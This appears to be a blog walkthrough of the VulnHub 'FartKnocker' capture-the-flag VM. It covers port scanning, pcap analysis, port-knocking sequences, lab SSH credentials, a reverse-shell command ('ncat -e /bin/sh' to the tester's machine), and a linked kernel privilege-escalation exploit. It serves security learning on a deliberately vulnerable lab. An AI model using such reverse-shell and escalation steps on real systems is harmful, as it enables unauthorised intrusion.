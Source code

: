 ```yaml
---
layout: post
title: Walkthrough FartKnocker
date: 2016-05-11 22:57:50.000000000 -03:00
type: post
published: true
status: publish
categories: []
tags:
- CTF
- pen-testing
- security
- vulnhub
meta:
  _oembed_1563c73acd9e0504baf061f20c23b0c4: "{{unknown}}"
  _rest_api_published: '1'
  _rest_api_client_id: "-1"
  _publicize_job_id: '22719287049'
author:
  login: tidlost
  email: tl.dr.mfw@gmail.com
  display_name: tidlost
  first_name: ''
  last_name: ''
---
```

Another VM is done. Here is the writeup. And here is the [link to the VM on vulnhub.](https://www.vulnhub.com/entry/tophatsec-fartknocker,115)

## Recon

```
$ netdiscover -r 192.168.1.1/24
192.168.1.103   08:00:27:3d:0d:c8      1      60  Cadmus Computer System
```

The Nmap-scan.

```
Not shown: 65534 closed ports
Reason: 65534 resets
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:3D:0D:C8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.4
TCP/IP fingerprint:
OS:SCAN(V=7.12%E=4%D=5/9%OT=80%CT=1%CU=42070%PV=Y%DS=1%DC=D%G=Y%M=080027%TM
OS:=57311E63%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=106%TI=Z%CI=I%II=I%
OS:TS=8)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5
OS:=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=
OS:7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%
OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
OS:%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S
OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
OS:=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
OS:%T=40%CD=S)
```

So port 80 is the only one open. An interesting little detail here is that it says that it found "65534 closed ports", and then it says: Reason: 65534 resets. I think that means that the server has responded with RST/ACK. Something I learned in this challenge. But we will get to that.
On port 80 we find a file named pcap1.pcap. So I open it up in wireshark.

To the experienced packet-inspector I guess that it is quite obvious what is going on in this packet-capture. But I had never heard about port-knocking. So I got lost on a detour for quite some time. I was inspecting the ICMP-packets. All of those packets ended with `"!"#$%&'()*+,-./01234567"`. Something that I though was suspicious. So I started googeling about hacks that use ICMP and found a lot.

It turns out that you can use the ICMP-protocol to hide, or tunnel, other services. So I thought that someone had injected a Loki-rootkit into the server, and what I was observing was the communication between the hacker (with ip ...102) and the victim-server. And that I was supposed to enter through the same exploit. But after going through the ICMP-packets in detail I realized that they really were just pings, and nothing else. They never contained more data than the default `"!"#$%&'()*+,-./01234567"`, which I learned could be used to fingerprint the server. This data meant that the server probably was a linux. So after discarding all the ICMP packets I started to look into the TCP-packets more closely. And after some creative googeling about ports I learned about port-knocking.

### Port knocking
So I downloaded knockd, that is used to implement port-knocking. And I got it to work by running this command:

```
knock 192.168.1.103 7000 8000 9000
nc 192.168.1.103 8888
```

This also worked:

```
for x in 7000 8000 9000; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x 192.168.1.103; done
nc 192.168.1.103 8888
```

And this:

```
nc 192.168.1.103 7000
nc 192.168.1.103 8000
nc 192.168.1.103 9000
nc 192.168.1.103 8888

```
Anyways, it lead me to this address: /burgerworld. I downloaded the pcap-file and continued. I went through each and every packet in detail to understand how they all worked. But I am not going to bore you with that. So I right-clicked on a TCP-packet and then clicked on follow tcp-stream. And it showed me a nice ascii-image of beavis (or butthead, can't remember who's who). And the text: eins drei drei sieben. So I google-translated the text, and it was what I though, the classic number 1337. So after trying every single possible combination of portknocking I finally figured out that it was supposed to be 1 3 3 7. And then nc to port 1337. There I found: /iamcornholio/ which gave me this text:
`huhhuhhh...Hey Beavis...Im all about uhhh...huhuh...that base huhhuhhh... T3BlbiB1cCBTU0g6IDg4ODggOTk5OSA3Nzc3IDY2NjYK`
So the base-comment made me think that it was probably base64-encoded. And it was.
It translated into: Open up SSH: 8888 9999 7777 6666
So I knocked the port and got access to port 22.

```
$ ssh root@192.168.1.103                                                   
The authenticity of host '192.168.1.103 (192.168.1.103)' can't be established.
ECDSA key fingerprint is SHA256:uSdkKIWXcJl0j0P5Y+cAzjD9CJOFQ/NxtG8kz8ptzFE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.103' (ECDSA) to the list of known hosts.
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead                       #
# PASSWORD: nachosrule                     #
############################################
```

So I logged in as butthead, but was immedietly thrown out.
From doing some challenges on overthewire I learned that you can execute commands with SSH without getting an actual shell.
But first I downloaded sshpass to be able to make the process a bit easier, and then:

```
sshpass -p nachosrule ssh butthead@192.168.1.103 ls
nachos

```
So then I used nc to get a permanent shell.

```
$ sshpass -p nachosrule ssh butthead@192.168.1.103 "ncat -e /bin/sh 192.168.1.106 1234"
```

## Escalation
So I got a shell, and it was time to escalate.
I ran the linEnum.sh script and waded through the info. And checked for vulns on sudo. But nothing really of interest. Some meaningless tuff in /tmp, some scripts in beavis. Then I found pcap3 and pcap4. That I studied thoroughly. In pcap4 I saw that there was some ssh-keychanges going on, and some encrypted data-transfer. But after some googeling I concluded that there is not really any way I could possibly break that. SSH with Diffie-hellman seems pretty waterproof.
In the end I ended up running the Ubuntu 14 priv-exploit that I have used on some other VM:s. This one: https://www.exploit-db.com/exploits/37292/. That exploit really is incredible/incredibly dangerous.
So I became root and got the SECRETZ in /root.

## Conclusion
Packet-analysis really was awesome. A lot of fun and interesting stuff. I feel like I have really started to get a grip of how packets are structured, and started to get to know Wireshark a lot more. So the main takeaways from this VM really was learning packet-analysis and about port-knocking.
Thanks to [top-hat-sec](https://www.top-hat-sec.com/r4v3ns-blog/fartknocker-vm-challenge) for another great VM!
After reading other writeups I learned about https://digi.ninja/projects/cewl.php. Which I am really excited about trying out. Gonna try it soon.
